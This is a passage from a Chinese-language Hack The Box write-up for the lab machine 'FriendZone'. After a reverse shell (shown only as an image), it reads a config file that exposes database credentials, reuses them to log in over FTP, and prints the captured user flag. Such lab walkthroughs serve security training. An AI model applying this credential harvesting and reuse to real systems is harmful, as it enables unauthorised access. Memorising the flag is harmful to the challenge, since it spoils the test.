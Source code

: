 获取反向外壳:

![](img/06f216bd9c196c5af77f6cfecb93653d.png)

修复我们的外壳后(有大量的参考资料，你也可以参考我的 HTB-混沌文章)。

我检查了文件，一个 mysql_data.conf 脱颖而出:

```
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user frienddb_user=**friend**db_pass=**Agpyu12!0.213$**db_name=FZ
```

我们找到用户朋友的凭证。由于我在 FTP 中没有工作凭证，所以我在那里尝试了一下，结果成功了:

```
➜  writeup ftp 10.10.10.123
Connected to 10.10.10.123.
220 (vsFTPd 3.0.3)
Name (10.10.10.123:root): friend
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--r--r--    1 0        0              33 Oct 06  2018 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (388.2719 kB/s)
ftp> exit
221 Goodbye.
➜  writeup cat user.txt 
**a9ed20acecd6c5b6b52f474e15ae9a11**
```

我知道有 user.txt .检查 php 文件，验证我的推测:
